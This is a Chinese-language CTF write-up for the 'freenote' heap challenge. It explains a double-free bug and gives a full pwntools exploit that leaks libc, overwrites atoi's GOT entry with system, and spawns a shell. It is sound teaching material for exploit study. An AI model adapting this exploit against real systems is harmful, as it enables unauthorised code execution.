










# ctf_wiki: freenote (额外)

## 功能



逆向可以得出关键的结构体如下：

```c
struct node{
    long inuse;
    long length;
    char *data;
};

struct Node{
    long max_number;
    long count;
    struct node[256];
};
```






## 漏洞



delete note 的功能中 free 没有置空指针，存在 double free。

## 利用

- leak



申请 4 个 unsorted chunk

- 间隔 free 掉 2 号 和 0 号 chunk



- malloc 回一个相同大小的 chunk，也就是消耗掉 2 号 unsorted bin。程序拿到的序号对应为 0



- 此时程序拥有的序号为 0，1，3 ，可以 free 掉 2 号 chunk (double free)，也就是 free 掉 堆上的 2 号 chunk



- 再 malloc 回一个相同大小的 chunk



此时程序中的 0 号索引指向的是 heap 上的 2 号 unsorted bin ，通过打印功能即可泄漏 `main_arena+88` 的地址。



- fastbin attack

leak 出 one gadget ，剩下就是常规 fastbin attack 的流程了，这里跳过。

## exp

```python
#coding:utf8
from pwn import *
# from LibcSearcher import *
context(log_level='debug',terminal=["tmux","splitw","-h"])
binary = "./freenote"
libc_binary = "/lib/x86_64-linux-gnu/libc.so.6"

p = process(argv=[binary])
# p = remote("",)

elf = ELF(binary)
libc = ELF(libc_binary)

context.arch = "amd64"

def opt(idx):
    p.sendlineafter("Your choice:",str(idx))

def add(length,content):
    opt(2)
    p.sendlineafter("Length of new note: ",str(length))
    p.sendlineafter("Enter your note: ",str(content))

def free(idx):
    opt(4)
    p.sendlineafter("Note number: ",str(idx))

def edit(idx,length,content):
    opt(3)
    p.sendlineafter("Note number: ",str(idx))
    p.sendlineafter("Length of note: ",str(length))
    p.sendlineafter("Enter your note: ",str(content))

def show():
    opt(1)


# leak
add(0x80,"a"*0x80)
add(0x80,"b"*0x80)
add(0x80,"c"*0x80)
add(0x80,"d"*0x80)

free(2) # 2
free(0) # 0
add(0x80,"A"*0x8) # idx = 0, chunk idx = 2
free(2) # 2
add(0x80,"A"*0x80) # 0
show()

p.recvuntil("0. ")
libc_base = u64(p.recv(6).ljust(8,"\0")) - 0x3c4b78
system_addr = libc_base + libc.sym["system"]
one_addr = libc_base + 0x4527a
log.success("system_addr is -> "+ hex( system_addr ))

add(0x30,"a")
add(0x30,"a")
add(0x30,"a")
free(4)
free(6)
free(4)
target = elf.got["atoi"] - 0x16
add(0x30,p64(target))
add(0x30,"a")
add(0x30,"a")
add(0x30,"\xa7\xf7\xff\x7f\x00\x00"+p64(system_addr))

p.sendline("/bin/sh\x00")
# gdb.attach(p,"set $g=0x603010,$h=0x604820\nb *0x7ffff7dd1b08")

p.interactive()
```
